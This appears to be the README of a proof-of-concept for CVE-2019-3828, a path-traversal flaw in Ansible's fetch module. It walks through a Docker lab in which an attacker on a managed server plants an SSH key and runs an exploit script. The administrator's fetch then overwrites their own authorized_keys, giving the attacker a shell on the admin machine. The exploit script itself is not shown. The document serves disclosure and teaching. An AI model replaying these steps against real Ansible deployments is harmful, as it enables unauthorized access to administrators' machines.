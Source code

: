 # Path traversal vulnerability in Ansible fetch module (CVE-2019-3828)

This directory contains a proof-of-concept exploit for [CVE-2019-3828](https://access.redhat.com/security/cve/cve-2019-3828), a path-traversal vulnerability in Ansible's [fetch module](https://docs.ansible.com/ansible/latest/modules/fetch_module.html). The scenario for the demo is that there are two computers, named "server" and "zeuss". The former is a member of a server farm managed using Ansible. The latter machine belongs to a systems adminstrator who is responsible for managing the server farm. The system administrator's username is "bofh". Now imagine that an attacker has managed to infiltrate one of the server machines and is able to run arbitrary commands as the "bofh" user. But the attacker does not know bofh's password, so is not able to access other user accounts, or other computers, such as zeuss.

Ansible's fetch module is used to copy files from the servers back to the system adminstrator's computer. In this demo, the system administrator is going to download `.ssh/authorized_keys` from the server to check that it hasn't been tampered with. But the attacker is going to exploit a path traversal vulnerability in the fetch module and overwrite the system administrator's own `.ssh/authorized_keys`.

The demo uses [docker](https://www.docker.com/) to simulate the two computers. See below for instructions.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 ansible-demo-network
```

## Server setup

Build the docker image:

```
docker build ./server -t ansible-server
```

Start the container:

```
docker run --rm --network ansible-demo-network --ip=172.16.0.10 -h server -i -t ansible-server
```

Inside the container, start `sshd` to enable remote access from zeuss.

```
tmux  # this step is optional: it enables you to open multiple terminals inside docker
sudo service ssh start  # sudo password is "x" (this is the only time that sudo is used)
```

## Zeuss setup

In a new terminal, build the docker image for zeuss.

```
docker build ./zeuss -t ansible-zeuss
```

Start the container:

```
docker run --rm --network ansible-demo-network --ip=172.16.0.11 -h zeuss -i -t ansible-zeuss
```

Inside the container:

```
source ./ansible/hacking/env-setup  # Add Ansible to the path
tmux  # this step is optional: it enables you to open multiple terminals inside docker
sudo service ssh start  # sudo password is "x"
```

## Running the exploit

First, let us see how the fetch module is *supposed* to work. On zeuss, run the following commands:

```
cd /home/bofh/config
ansible-playbook myfetch.yml
```

This copies `authorized_keys` from the server to the following locatino on `zeuss`:

```
/home/bofh/config/fetched/172.16.0.10/home/bofh/.ssh/authorized_keys
```

Note that the file has been placed safely in a subdirectory of the current directory.

Now let's enable the exploit on the server. Run the following commands on the server:

```
ssh-keygen -t ed25519 -f /home/bofh/.ssh/id_ed25519  # Create a new ssh key
cat /home/bofh/.ssh/id_ed25519.pub >> /home/bofh/.ssh/authorized_keys  # Add new key to authorized_keys
cd /home/bofh/scripts
./enable_exploit.sh
```

Now go back to zeuss and run the same fetch playbook as before:

```
cd /home/bofh/config
ansible-playbook myfetch.yml
```

The `authorized_keys` file has now been overwritten. Which means that the attacker can ssh into zeuss. Run this command on the server:

```
ssh 172.16.0.11
```

The attacker has a shell on zeuss!
